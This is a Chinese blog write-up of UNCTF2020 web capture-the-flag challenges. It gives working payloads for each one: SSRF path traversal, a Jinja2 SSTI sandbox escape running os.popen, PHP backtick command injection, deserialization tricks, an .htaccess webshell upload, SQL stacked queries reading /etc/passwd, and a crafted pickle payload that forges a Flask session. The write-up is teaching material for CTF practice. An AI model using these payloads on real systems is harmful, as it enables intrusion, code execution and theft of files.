<!--yml
category: 未分类
date: 2022-04-26 14:36:10
-->

# UNCTF2020web方向部分题解_bmth666的博客-CSDN博客

> 来源：[https://blog.csdn.net/bmth666/article/details/109765055](https://blog.csdn.net/bmth666/article/details/109765055)

## Web方向

### easy_ssrf

php遇到不认识的协议就会当目录处理
`?url=0://unctf.com/../../../../../../../../flag`


### easyflask

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)
[SSTI模板注入及绕过姿势(基于Python-Jinja2)](https://blog.csdn.net/solitudi/article/details/107752717)
解题思路：`{{2*2}}`
发现是ssti，过滤了`_`，`'`，`"`，`[`，`]`，`%`，使用(request.args.x1)，get请求x1绕过`__class__`
写一个get请求的payload:
读取所有的class类

```
?guess={{%20({}|attr(request.args.x1)|attr(request.args.x2)|%20attr(request.args.x3)())}}&x1=__class__&x2=__base__&x3=__subclasses__ 
```


发现165是`warnings.WarningMessage`
最后构造出paylaod:

```
?guess={{%20({}|attr(request.args.x1)|attr(request.args.x2)|%20attr(request.args.x3)())|attr(request.args.x6)(165)|%20attr(request.args.x4)|%20attr(request.args.x5)|%20attr(request.args.x6)(request.args.x7)|attr(request.args.x6)(request.args.x8)(request.args.x9)}}
&x1=__class__
&x2=__base__
&x3=__subclasses__
&x4=__init__
&x5=__globals__
&x6=__getitem__
&x7=__builtins__
&x8=eval
&x9=__import__(%22os%22).popen("ls").read() 
```


最后读取flag.txt即可

### 俄罗斯方块人大战奥特曼


下载压缩包

查找字符串flag，找到一个`this is your flag` ，访问这个html即可


### easyunserialize

ctfshow上的题目，月饼杯，几乎是一模一样的，做过一遍了。。。。
反序列化字符串逃逸，需要逃逸`";s:8:"password";s:5:"easy";}`29个字符串，但`challenge`到`easychallenge`是四个字符串，卡了很久，最后尝试去掉最后一个`}`可以成功，很懵

```
challengechallengechallengechallengechallengechallengechallenge";s:8:"password";s:4:"easy"; 
```



### babyeval

直接反引号`执行命令，不能有flag，使用base4编码秒了

```
?a=echo `ls|base64`; 
```


最后cat flag.php即可

```
?a=echo `cat flag.php|base64`; 
```



### ezphp

网上几乎一模一样的题目，实验吧的，秒了
构造两个数组使bool值为真（true跟任意字符串都弱类型相等）

```
data=a:2:{s:8:"username";b:1;s:8:"password";b:1;} 
```



### easy_upload

这题是考.htaccess的，做过buuctf的应该都会，例题：**[SUCTF 2019]EasyWeb** 和 **[XNUCA2019Qualifier]EasyPHP**。然后秒了
禁止上传后缀带ph的和内容带ph的，并检测content
首先上传shell.abc，内容为一句话的base64编码

然后上传.htaccess，用\绕过检测，这正则匹配了一个寂寞，应该不能这样写的呀

不多bb直接得到flag


### UN’s_online_tools

一开始是sqlmap一把梭，然后发现没有flag，想了很久想到sqlmap读取文件秒了，没有复现环境，改为另一个题了。。嘤嘤嘤
命令执行，直接秒杀
空格可以用%09绕过，后面就没有难度了


### ezfind

给出了提示才做出来的：**if(!(is_file($name)===false)){flag}else{no flag}**
然后盲猜数组，结果就出来flag了，看一下为什么

发现是NULL，然后===false是false，再来一个!结果就是true


### 其他的题目的一些思路:

#### checkin-sql：

```
1';PREPARE hacker from concat('selec','t',' * from `0xDktb`');EXECUTE hacker; 
```

即可执行任意的sql语句，可以读任意文件

```
1';PREPARE hacker from concat('selec','t',' load','_file','(0x2f6574632f706173737764)');EXECUTE hacker; 
```

但。。。。找不到flag，写文件的话不知道是姿势错了还是写不进去，tcl

#### easyphp：

这题本地发现可以`${``}`执行任意命令，但有长度限制，6位一下命令执行网上一大堆，前面的admin密码直接变量覆盖，sha1使用数组失败，应该是爆破0e，没爆破出来Orz

## easy_flask2

[pickle反序列化的利用技巧总结](https://zhuanlan.zhihu.com/p/361349643)
[pickle反序列化初探](https://xz.aliyun.com/t/7436)
[Python pickle 反序列化实例分析](https://www.anquanke.com/post/id/188981)

`/source`得到源码

```
from flask import Flask,render_template,redirect,request,session,make_response
import config
import pickle
import io
import sys
import base64

class Person:
    def __init__(self, name, is_admin):
        self.name = name
        self.is_admin = is_admin

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))

def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()

app = Flask(__name__)
flag = "xxx"

@app.route("/")
def index():
    app.config["SECRET_KEY"] = config.secret_key
    return redirect("login")

@app.route("/login",methods=["GET","POST"])
def login():
    if request.form.get('name'):
        name = request.form.get('name')
        person = Person(name,0)
        pkl = pickle.dumps(person)
        pkl = base64.b64encode(pkl)

        resp = make_response(name)
        resp.set_cookie('pkl',pkl)

        session['name'] = name
        session['is_admin'] = 0
        return resp

    else:
        if session.get('name'):
            if b'R' in base64.b64decode(request.cookies['pkl']):
                return "RCE??"
            person = pickle.loads(base64.b64decode(request.cookies['pkl']))
            print(person.is_admin)
            if session.get('is_admin') == 1:

                if person.is_admin == 1:
                    return "HHHacker!Here is Your flag : " + flag
            return render_template("index.html",name=session.get('name'))

        else: 
            return render_template("login.html")

@app.route("/logout",methods=["GET","POST"])
def logout():
    resp = make_response("success")
    resp.delete_cookie("session")
    resp.delete_cookie("pkl")
    return resp

@app.route("/source")
def source():
    return open('code.txt','r').read()

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=5000,debug=True) 
```

发现pickle，那么可能是python反序列化，发现进行pickle反序列化的时候只允许`__main__`模块

### 方法一

这里使用 c 操作符控制 config.secret_key
通过c操作符(即GLOBAL指令)覆盖secret_key和is_admin的值
首先尝试使用pker生成payload

```
secret = GLOBAL('__main__', 'config')
secret.secret_key = 'hello'
person = INST('__main__', 'Person', 'admin', 1)
return person 
```

然后`python3 pker.py < test.txt`
但是官方wp说0号协议不能用，需要3号协议，不会了，payload为

```
\x80\x03c__main__\nconfig\n}(Vsecret_key\nVcioier\nub0c__main__\nPerson\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x07\x00\x00\x00Cxloverq\x04X\x08\x00\x00\x00is_adminq\x05K\x01ub. 
```

具体流程，登录过后，修改coookie的pkl，访问`/login`反序列化覆盖 secret_key ，然后再访问 `/` 覆盖掉 `app.config["SECRET_KEY"]`，接着更改 cookie 的 session 为篡改的 session 访问 `/login` 即可获得 flag
伪造session使用flask_session_cookie_manager
